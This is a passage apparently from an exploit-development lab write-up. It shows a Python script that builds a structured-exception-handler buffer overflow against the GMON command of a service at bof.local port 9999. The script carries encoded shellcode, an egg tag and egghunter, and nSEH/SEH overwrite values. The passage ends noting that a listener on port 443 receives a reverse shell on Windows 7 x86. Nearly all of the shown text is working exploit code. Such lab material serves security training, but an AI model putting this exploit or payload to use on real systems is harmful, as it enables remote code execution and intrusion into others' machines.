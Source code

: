 ```python
"\xfd\x33\x1c\xa5\x73\x9c\x13\x0e\x39\xfa\x1a\x8f\x12\x3e\x3d"
"\x13\x69\x13\x9d\x2a\xa2\x66\xdc\x6b\xdf\x8b\x8c\x24\xab\x3e"
"\x20\x40\xe1\x82\xcb\x1a\xe7\x82\x28\xea\x06\xa2\xff\x60\x51"
"\x64\xfe\xa5\xe9\x2d\x18\xa9\xd4\xe4\x93\x19\xa2\xf6\x75\x50"
"\x4b\x54\xb8\x5c\xbe\xa4\xfd\x5b\x21\xd3\xf7\x9f\xdc\xe4\xcc"
"\xe2\x3a\x60\xd6\x45\xc8\xd2\x32\x77\x1d\x84\xb1\x7b\xea\xc2"
"\x9d\x9f\xed\x07\x96\xa4\x66\xa6\x78\x2d\x3c\x8d\x5c\x75\xe6"
"\xac\xc5\xd3\x49\xd0\x15\xbc\x36\x74\x5e\x51\x22\x05\x3d\x3e"
"\x87\x24\xbd\xbe\x8f\x3f\xce\x8c\x10\x94\x58\xbd\xd9\x32\x9f"
"\xc2\xf3\x83\x0f\x3d\xfc\xf3\x06\xfa\xa8\xa3\x30\x2b\xd1\x2f"
"\xc0\xd4\x04\xff\x90\x7a\xf7\x40\x40\x3b\xa7\x28\x8a\xb4\x98"
"\x49\xb5\x1e\xb1\xe0\x4c\xc9\x12\xe4\x44\xa2\x03\x07\x58\xb5"
"\x68\x8e\xbe\xdf\x9e\xc7\x69\x48\x06\x42\xe1\xe9\xc7\x58\x8c"
"\x2a\x43\x6f\x71\xe4\xa4\x1a\x61\x91\x44\x51\xdb\x34\x5a\x4f"
"\x73\xda\xc9\x14\x83\x95\xf1\x82\xd4\xf2\xc4\xda\xb0\xee\x7f"
"\x75\xa6\xf2\xe6\xbe\x62\x29\xdb\x41\x6b\xbc\x67\x66\x7b\x78"
"\x67\x22\x2f\xd4\x3e\xfc\x99\x92\xe8\x4e\x73\x4d\x46\x19\x13"
"\x08\xa4\x9a\x65\x15\xe1\x6c\x89\xa4\x5c\x29\xb6\x09\x09\xbd"
"\xcf\x77\xa9\x42\x1a\x3c\xc9\xa0\x8e\x49\x62\x7d\x5b\xf0\xef"
"\x7e\xb6\x37\x16\xfd\x32\xc8\xed\x1d\x37\xcd\xaa\x99\xa4\xbf"
"\xa3\x4f\xca\x6c\xc3\x45")


buffer = "A" * (3515-len(egg + shellcode))
print "[*] Adding Egghunter tag " + egg + " alongside A Buffer"
buffer += egg
buffer += shellcode
print "[*] Starting to Fuzz GMON with %s bytes" %len(buffer) + " A's"
buffer += nseh
print "[*] Overwriting nSEH Value with " + nseh
buffer += seh #0x625010br pop,pop,ret
print "[*] Overwriting SEH Value with " + seh
buffer += eggnops
buffer += egghunter
junk = "J"*(5000-len(buffer))
buffer += junk #Bunch of D"s to fill remaining space

print "[*] Starting to Fuzz GMON with everything containing %s bytes" %len(buffer)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',9999))
print "[*] Connected to bof.local on Port 9999"
s.send(('GMON /.:/' + buffer))
s.close()
print "[*] Finished Fuzzing GMON with %s bytes" %len(buffer)
```





Providing we have a listener open on `443` we will receive a reverse shell back - It's worth noting here that this will **ONLY** work on `Windows 7 x86` this is due to the way the Egghunter initiates system calls, namely `INT 2E` - It is slightly different across architecture so our **mona** Egghunter will only work on  `32 Bit`
